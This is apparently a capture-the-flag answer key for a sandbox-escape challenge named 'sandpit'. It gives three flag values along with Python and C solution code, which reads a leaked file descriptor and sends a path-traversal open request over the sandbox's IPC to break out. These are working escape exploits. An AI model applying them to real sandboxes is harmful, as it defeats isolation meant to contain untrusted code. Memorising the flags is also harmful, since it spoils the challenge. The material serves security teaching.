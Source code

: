 # Answers


## Flag 0

**Filename**: `/tmp/sandpit.sandbox/sandpit_flag0.txt`

**Content**: `flag{exit_light_enter_night}`

Can be read due to it being within the sandbox root.

```python
flag = open('sandpit_flag0.txt', 'r')
print(flag.read())
flag.close()
```


## Flag 1

**Filename**: `/tmp/sandpit_flag1.txt`

**Content**: `flag{this_is_sandpit_turtle}`

Can be read due to the open file handle in the sandbox left from before locking
the sandbox down.

```python
import os

os.lseek(3, 0, 0)
flag = os.read(3, 64)
print(flag)
```


## Flag 2

**Filename**: `/tmp/sandpit_flag2.txt`

**Content**: `flag{somebody_just_took_a_sandwich}`

Can be read by requesting it though the IPC.

I have no idea how to write the equivalent in Python, although it seems
possible. This is 95% blind copy/paste from
[the IPC client's source code](https://github.com/0x6c7862/sandpit/blob/master/src/ipc/mod.rs),
plus the parts at the start and end to send the initial command and read the
flag.

```c
/* Payload to read a file through the IPC.
 *
 * Adapted from "src/unix/extern_open.c".
 *
 * Compile with:
 *
 *   gcc -shared -lc -Wl,-soname,libpayload.so.1 -fPIC -o /tmp/payload.so payload.c
 */
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/socket.h>

union cmsghdr_buf {
	struct cmsghdr align;
	char buf[CMSG_SPACE(sizeof(int))];
};

int payload(int socket) {
	struct msghdr msg = { 0 };

	/* Send open command */
	char cmd[] = "open /tmp/sandpit.sandbox/../sandpit_flag2.txt\x00";
	send(4, cmd, sizeof(cmd), 0);

	/* Allocate scatter-gather locations */
	char iov_buf[1] = { -1 };
	struct iovec iov = { .iov_base = &iov_buf, .iov_len = sizeof(iov_buf) };
	msg.msg_iov = &iov;
	msg.msg_iovlen = 1;

	/* Allocate access control messages */
	char buf[sizeof(union cmsghdr_buf)];
	msg.msg_control = buf;
	msg.msg_controllen = sizeof(buf);

	/* Wait for fd */
	ssize_t ret = recvmsg(socket, &msg, 0);
	if (ret < 0 || errno) {
		perror("recvmsg");
		return ret;
	}

	/* Extract status */
	if (*iov_buf != 0) {
		return -127;
	}

	/* Extract fd */
	struct cmsghdr *cmsgp = CMSG_FIRSTHDR(&msg);
	if (cmsgp == NULL) {
		errno = EINVAL;
		return -1;
	}

	/* Read fd */
	char read_buf[64];
	int fd = *((int *)CMSG_DATA(cmsgp));
	if (read(fd, read_buf, sizeof(read_buf)) < 0 || errno) {
		perror("read");
		return -1;
	}

	/* Print flag */
	puts(read_buf);

	return 0;
}
```
